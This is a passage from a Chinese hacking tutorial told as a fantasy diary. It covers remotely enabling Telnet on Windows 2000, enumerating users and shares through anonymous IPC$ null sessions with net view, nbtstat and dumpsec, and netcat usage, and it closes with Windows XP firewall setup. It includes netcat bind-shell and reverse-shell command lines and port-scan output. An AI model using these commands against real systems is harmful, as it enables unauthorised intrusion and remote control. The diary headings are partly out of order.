但是，TELNET 无法执行视窗程序，例如资源管理器、记事本等等。只能如过去的 MS-DOS 时代一样，使用文字模式来执行命令，因此，TELNET 服务器的主要定位，还是在于利用它来管理系统以及执行网络相关控制指令。

## Win2000 的 Telnet 服务

Win2000 为我们提供了 Telnet 客户机和服务器程序：Telnet.exe 是客户机程序（Client），tlntsvr.exe 是服务器程序（Server），同时它还为我们提供了 Telnet 服务器管理程序 tlntadmn.exe。

Windows 2000 默认安装了 Telnet 服务，但是并没有默认启动。下面给出 HELP 文件中 Telnet 服务的一部分默认设置：

AllowTrustedDomain：是否允许域用户访问。默认值是 1，允许信任域用户访问。可以改为 0：不允许域用户访问（只允许本地用户）。

DefaultDomain：可以对与该计算机具有信任关系的任何域设置。默认值是“.”。

DefaultShell：显示 shell 安装的路径位置。默认值是：%systemroot%\System32\Cmd.exe /q /k。

MaxFailedLogins：在连接终止之前显示尝试登录失败的最大次数。默认是 3。

LoginScript：显示 Telnet 服务器登录脚本的路径位置。默认的位置就是“%systemroot%\System32\login.cmd”，你可以更改脚本内容，这样登录进 Telnet 的欢迎屏幕就不一样了。

NTLM：NTLM 身份验证选项。默认是 2。可以有下面这些值：

- 0：不使用 NTLM 身份验证。
- 1：先尝试 NTLM 身份验证，如果失败，再使用用户名和密码。
- 2：只使用 NTLM 身份验证。

TelnetPort：显示 Telnet 服务器侦听 Telnet 请求的端口。默认是 23。你也可以更改为其他端口。

以上各项设置你可以使用 tlntadmn.exe（Telnet 服务器管理程序）来进行非常方便的配置，配置后需要重新启动 Telnet 服务。

哪吒讲到此时，忙起身匆匆离去。我正有许多的疑问，没有办法，只好坐下来等。也不知道过了多长的时间，迷迷糊糊地听到有人叫我。好不容易睁开了惺忪的眼睛，竟然是萍儿。原来我已经在哪吒的书房中睡着了。那么哪吒到底去哪里了呢？满心的疑问。一个不眠夜！幸好有萍儿陪伴，总算熬了过去。

## 日记十七：实例入侵（续）

甲申 42 年 1 月 1 日 星期七 让暴风雨来得更猛烈些吧

我给你讲个实例吧，哪吒不厌其烦地开始讲解：下面讲一下用“计算机管理”功能来打开 TELNET 服务。步骤如下：

- 1. 右键单击“我的电脑”，选“管理”，打开“计算机管理”窗口。
- 2. 右键单击“计算机管理（本地）”，选择“连接到另一台计算机”（图 17-1）。
- 3. 在打开的“选择计算机”对话框（图 17-2）中我选定了一台叫做“DONGAN”的计算机，单击 OK。这样就可以远程管理那台机子了。
- 4. 展开“DONGAN”的服务，并在其中找到 TELNET。一般的默认情况下它为手动方式。右键单击它，选择“属性”打开 TELNET 属性对话框，将 TELNET 属性改为“自动”（图 17-3）。
- 5. 确定后回到计算机管理窗口，再右键单击 TELNET，选“启动”（图 17-4）。
- 6. 出现“服务控制”对话框（图 17-5），提示正在启动服务。
- 7. 一会儿，TELNET 服务就会被开启。





图 17-1

图 17-2



图 17-3



图 17-4



图 17-5

## 日记十八：WINDOWS2000查点

二〇〇五年 2 月 2 日 星期二 龙抬头剃圈子

不知不觉中，在哪吒家待了好些天了，风火轮的技术也掌握得差不多了，在这一段时间中我学到了不少的东西，不光是技术上的，还包括为人处事上的。总之，是受益匪浅啊。但是天下没有不散的筵席啊。我又要走了，去其他的地方继续学道修炼。

接下来该去哪儿呀？这可有点为难了。在仙界逗留了几日，毫无收获。没办法，想走了。忽听有人小声嘀咕：“听说王母娘娘要开蟠桃大会了。我们要赶快去准备哦。”原来是七仙女准备去蟠桃园摘桃，准备开蟠桃大会。

“OK，就去蟠桃会看看，众仙家都会去参加蟠桃会的，那里一定有许多的能人异士。”于是就去参加了蟠桃大会。在蟠桃大会上结识了两个小神，他们虽然在仙界地位卑微但是各有一个绝活，是其他的神仙所不具备的。他们就是“千里眼”和“顺风耳”。这两个人倒是挺老实的，得知我是逢蒙大将军，他们都佩服我佩服得五体投地。我说：“现在我遇到了些困难，希望两位帮下忙。”两人忙跪下：“大人言重了，大人一句话，我们赴汤蹈火，在所不辞。”我一听，大喜。就跟他们学了“千里眼”和“顺风耳”之术。利用此术来查点。

> 菜鸟恶补：“查点”  
> 寻找要攻击的目标的一些细节的信息，包括有效的账户名称或者保护不好的资源共享。我们将这个过程称为“查点”。一旦一个有效的用户名称或共享被查点出来，那么入侵者猜出相应的密码和发现共享协议的弱点就只是时间的问题了。可见这里查点的作用是多么的重要啊。

查点技术通常都是特定于指定的服务的，因此应该使用通过端口扫描获取的信息确定你的目标。下面就列举出几项易受查点攻击的 WINDOWS2000 服务。

| 端口 | 服务 |
|---|---|
| TCP 53 | DNS 区域传输 |
| UDP 137 | NetBIOS 名称服务（NBNS） |
| TCP 139 | NetBIOS 会话服务 |
| TCP 445 | TCP 上的 SMB |
| UDP 161 | 简单网络管理协议（SNMP） |
| TCP/UDP 389 | 轻量级目录访问协议（LDAP） |
| TCP/UDP 3268 | 全局编录目录 |

> 菜鸟恶补：NetBIOS 网络查点  
> “查点 NetBIOS 线路”：查看侦察的 NT/2000 网络线路上都有什么东西。因为 NT/2000 仍然十分依赖于 NetBIOS 名称服务（NBNS），所以这项工作十分好进行，而且微软也为我们提供了许多的命令参数和相关的工具。

### 一、使用 NET VIEW 查点域

- 1. 使用 net view 查点域

```bash
c:\>net view /domain
```

在 /domain 参数中指定一个域名，能够列出指定的域中的所有计算机。

```bash
c:\>net view /domain:group
```

查点域名为 group 的所有成员计算机。

### 二、nbtstat、nbtscan 查看 NetBIOS 名称表

nbtstat，它能够调用远程系统上的 NetBIOS 名称表。名称表含有大量的信息。

```bash
c:\>nbtstat -A 192.168.0.208（图 18-1）
```

NetBIOS 后缀和对应的名称和服务。



使用 nbtscan 扫描 NetBIOS 名称表。

nbtscan 能够对整个网络进行快速的 nbtstat 扫描，然后非常漂亮地对结果进行格式化，这方便我们进行阅读。



```bash
c:\>nbtscan 192.168.0.208（图 18-2）
```

查点 NT/2000 域控制器。

nltest 工具识别出 WINDOWS2000 域中的域控制器（注：域控制器是 WIN2000 网络认证凭据的存储地点）。

```bash
c:\>nltest /dclist:corleone
```

WINDOWS2000 DNS 查点。

> 菜鸟恶补：域名系统（DNS）  
> 域名系统（DNS）是用于将主机 IP 地址和易于记忆的友好名称匹配起来的 Internet 标准协议。它是踩点信息的主要来源之一。

因为 WINDOWS2000 活动目录（AD）名称空间是基于 DNS 的，Microsoft 已经完全升级了 WINDOWS2000 的 DNS 服务器的实现，以满足活动目录的需要。对于那些需要定位 WINDOWS2000 域服务（如活动目录或 Kerberos）的客户端来说，WINDOWS2000 依赖于 DNS SRV 记录（RFC 2052），这种记录允许服务器通过服务类型（LDAP、FTP、WWW 等）和协议（比如 TCP）来进行定位。于是，一次简单的区域传输能够查点很多有意义的网络信息。

### WINDOWS2000 主机查点

WINDOWS2000 一个最严重的问题是在默认的情况下它对通用 Internet 文件系统／服务器消息块协议（CIFS/SMB）的依赖。SMB 规范中包含了一些 API，能够通过 TCP 端口 139 和 445 返回关于一台计算机的丰富信息，甚至未认证的用户（Everyone 组的成员）也可以使用它们（在上面就可以看出为什么 139 和 445 端口是多么危险的端口了，也难怪一般的管理员都会将它们禁用或是加以限制）。

远程访问这些 API 的第一步就是通过所谓的“空会话”命令，就是与 WINDOWS2000 系统建立这样一个未经认证的连接（假设之前已经通过端口扫描发现了 TCP 端口 139 或 445 正在监听）：

```bash
c:\>net use \\192.168.0.208\ipc$ "" /u:""
The command completed successfully.
```

这个命令使用内建的匿名用户身份（/u:""）和空密码（""）连接到 IP 地址为 192.168.0.208 的隐藏的进程间通信共享（ipc$）（这个过程也可以称之为建立 IPC$ 空连接），如果成功的话，攻击者就得到了一个开放的通道，在这个通道上你可以用各种技术来攫取尽可能多的信息：网络信息、共享、用户、组、注册表键等等。

### 使用 net view 查点共享

在建立了空会话之后，我们就可以使用简单的 net view 命令来查点远程系统上的共享：

```bash
c:\>net view \\D08
```

### dumpsec 查点用户

我们可以在命令 dumpsec 中使用参数以获取远程计算机上的用户信息，并保存到一个文件 c:\temp\users.txt 中（记住首先必须与该主机建立空会话，否则就会失败）。命令如下：

```bash
C:\>dumpsec \\192.168.0.208 /rpt=useronly /saveas=tsv /outfile=c:\temp\users.txt
```

不知不觉就过了很多天了，估算着蟠桃大会就要开始了，我也该动身了。

## 日记十九：netcat

这一天，看到二郎神在河边遛狗，我一看，吓了一大跳。他那哮天犬全身绑着绷带，嘴里疼痛得嗷嗷叫。“怎么啦，二郎神，哮天犬被人欺负了。”

二郎神一脸的不高兴，也懒得理我，气愤地走了。我自讨没趣。打听了一下，原来哮天犬是被一只猫给打伤了。哦，这猫这么厉害，我一定要去见识见识。这猫就是 netcat。

netcat 被誉为网络安全界的“瑞士军刀”，相信没有什么人不认识它吧……一个简单而有用的工具，通过使用 TCP 或 UDP 协议的网络连接去读写数据。它被设计成一个稳定的后门工具，能够直接由其他程序和脚本轻松驱动。同时，它也是一个功能强大的网络调试和探测工具，能够建立你需要的几乎所有类型的网络连接。在中国，它的 WINDOWS 版有两个版本，一个是原创者 Chris Wysopal 写的“原版”，另一个是由“红与黑”编译后的“浓缩”版，“浓缩”版的主程序只有 10 多 KB（10 多 KB 的 NC 是不能完成下面所说的第 3、第 4 种使用方法，有此功能的原版 NC 好像要 60KB :P），虽然“体积”小，但能完成很多工作。它们各有各的优点，你可以根据自己的需要来决定选用哪一个。

- NC 的基本用法：
- 1) 连接到远程主机；  
  格式：`nc -nvv 192.168.0.208 80`  
  功能：连到 192.168.0.208 的 TCP 80 端口。
- 2) 监听本机的某一个端口；  
  格式：`nc -l -p 80`  
  讲解：监听本机的 TCP 80 端口。
- 3) 远程主机绑定 SHELL；  
  格式：`nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe`  
  讲解：绑定远程主机的 CMD SHELL 在它的 TCP 5354 端口。
- 4) 远程主机绑定 SHELL 并反向连接；  
  格式：`nc -t -e c:\winnt\system32\cmd.exe 192.168.2.208 5354`  
  讲解：绑定远程主机的 CMD SHELL 并反向连接到 192.168.0.208 的 TCP 5354 端口。

以上为最基本的几种用法（其实 NC 的用法还有很多，当配合管道命令“|”与重定向命令“<”“>”等等，命令功能更强大……）。上面没有讲到用 NC 进行端口扫描，下面详细地介绍一下如何利用 NC 进行端口扫描。NC 对端口的扫描分为两种，即扫描 TCP 端口和扫描 UDP 端口。两种扫描的命令格式稍有差别：

```text
扫描 TCP 端口（图 19-1）
nc -vv -z ip_address(machine_name) port-port
nc -vv -z 192.168.0.208 135-139
```

## 日记二十八：唐僧的袈裟

上古五十三年 4 月 9 日 星期二 龙卷风

扫描主机 192.168.0.208 的 TCP 端口 135 至 139，可以看到每个端口对应的服务名和开放状况（图 19-2）。

```bash
C:\>nc -nz -v -w 1 192.168.0.208 135-145
...
[192.168.0.208] 145 (?) open
[192.168.0.208] 144 (?) open
[192.168.0.208] 143 (?) open
[192.168.0.208] 142 (?) open
[192.168.0.208] 141 (?) open
[192.168.0.208] 140 (?) open
[192.168.0.208] 139 (netbios-ssn) open
[192.168.0.208] 138 (netbios-dgm) open
[192.168.0.208] 137 (netbios-ns) open
[192.168.0.208] 136 (?) open
[192.168.0.208] 135 (epmap) open
```



```bash
nc -nv -z 192.168.0.208 125-130
...
[192.168.0.208] 129 (bios) connection refused
[192.168.0.208] 128 (?) connection refused
[192.168.0.208] 127 (?) connection refused
[192.168.0.208] 126 (?) connection refused
[192.168.0.208] 125 (?)
```



也难怪哮天犬要吃亏，netcat 确实太厉害了。下次哮天犬见了 netcat 可要小心了，可不能因为它是猫就小看它了。

> 任我小行友情提示：这里只介绍扫描 TCP 端口，至于扫描 UDP 端口就给读者们留作课后习题了！哈哈！

我光会攻击不会防御也不行啊？好生郁闷。这攻击那攻击，我都快疯了。万一后羿那小子发现我，然后反过来攻击我，我该怎么办？于是就去唐僧的住所向他借他的袈裟。就是观音菩萨在他取经之前给他的那件袈裟，可以防火、防水。袈裟上还镶有许多的宝物。

于是就只好厚着脸皮去向唐僧去要。唐僧在如来佛祖那里了解到我为何而来，二话没说就脱下袈裟给了我。我感动得流下了泪，穿上了袈裟。

Internet 连接防火墙（Internet Connection Firewall，简称 ICF）是 Windows XP 用来限制哪些信息可以从家庭或小型办公网络进入 Internet，以及从 Internet 进入家庭或小型办公网络的一种软件。ICF 建立在你的电脑与因特网之间，它可以让你请求的数据通过，而阻碍你没有请求的数据包，是一个基于包的防火墙。ICF 的第一个功能就是不响应 ping，而且 ICF 还禁止外部程序对本机进行端口扫描，抛弃所有没有请求的 IP 包。

### 一、Windows XP 防火墙的工作原理

ICF 是状态防火墙，可监视通过的所有通信，并且检查所处理的每个消息的源和目标地址。为了防止未经请求的通信进入系统端口，ICF 保留了所有源自本地计算机的通信表。在单独的计算机中，ICF 将跟踪源自本地计算机的通信，所有 Internet 传入通信都会针对于该表中的各项进行比较。只有当通信表中有匹配项时（这说明通信交换是从计算机或专用网络内部开始的），才允许将传入 Internet 通信传送给网络中的计算机。

源自外部 ICF 计算机（也就是入侵的计算机）的通信（如 Internet 非法访问）将被防火墙阻止，除非在“服务”选项卡上设置允许该通信通过。ICF 不会向你发送活动通信，而是静态地阻止未经请求的通信，防止像端口扫描这样的常见黑客攻击。ICF 的原理是通过保存在一个通信表格，记录所有自本机发出的目的 IP 地址、端口、服务以及其他一些数据来达到保护本机的目的。当一个 IP 数据包进入本地时，ICF 会检查这个表格，看达到的这个 IP 数据包是不是本机所请求的，如果是就让它通过，如果在那个表格中没有找到相应的记录就抛弃这个 IP 数据包。

例如，当用户使用 Outlook Express 来收发电子邮件的时候，本机会发出一个 IP 请求到 POP3 邮件服务器。ICF 会记录这个目的 IP 地址、端口。当一个 IP 数据包到达本机的时候，ICF 首先会进行审核，通过查找事前记录的数据可以确定这个 IP 数据包是来自我们请求的目的地址和端口，于是这个数据包获得通过。一旦有新的邮件到达邮件服务器时，邮件服务器会自动发一个 IP 数据包到 Outlook 客户机来通知有新的邮件到达，这种通知是通过 RPC Call 来实现的。当邮件服务器的 IP 数据包到达客户机时，客户机的 ICF 程序就会对这个 IP 包进行审核，发现本机的 Outlook Express 客户端软件曾对这个地址和端口发出 IP 请求，所以这个 IP 包就会被接受，客户机当然就会收到发自邮件服务器的新邮件通知，然后让 Outlook Express 去接收邮件服务器上的新邮件。

### 二、使用 WinXP 防火墙

### 1、启用或禁用 Internet 连接防火墙

打开“网络连接”，然后单击要保护的拨号、LAN 或高速 Internet 连接，然后在“网络任务”→“更改该连接的设置”→“高级”→“Internet 连接防火墙”下，选择下面的一项。如果想要启用“Internet 连接防火墙”的话，则选中“通过限制或禁止来自 Internet 的对此计算机的访问来保护我的计算机和网络”复选框（图 20-1）。

反之，如果想要禁用的话，就清除该复选框。对于你需要开放的服务，可以直接在“高级”标签里点击“设置”按钮，在弹出的对话框中选择想要开放的服务，对于列表里没有



图 20-1

## 黑客日记

的服务，可以直接点击“添加”按钮添加新的服务（图20-2），这样别人才能访问你的服务啊。因为在 ICF 启用时，默认的情况下你没有发送请求的包都会被丢弃，所以必须要专门开放需要的服务，别人才能够访问。

#### 2、安全日志（图20-3）

ICF 安全日志可以记录放弃的数据包及功能的连接。

当选择“记录被丢弃的包”复选框时，每次通信尝试通过防火墙被检测和拒绝的信息都被 ICF 收集。

例如，如果你的 ICMP 没有选中“允许传入的回显请求”，当我们使用 ping 和 tracert 命令发出请求时，接收到来自网络外的回显请求将会被丢弃，然后日志中将生成一条项目。

当选择“记录成功的连接”复选框时，将收集每个成功通过防火墙的连接信息。例如，当网络上的任何人使用 Internet Explorer 成功实现与某个网站的连接时，日志中将生成一条项目。生成安全日志时使用的格式为 W3C 扩展日志文件格式，这与在常用日志分析工具中使用的格式类似。

## 3、更改安全日志文件的路径和文件名及大小

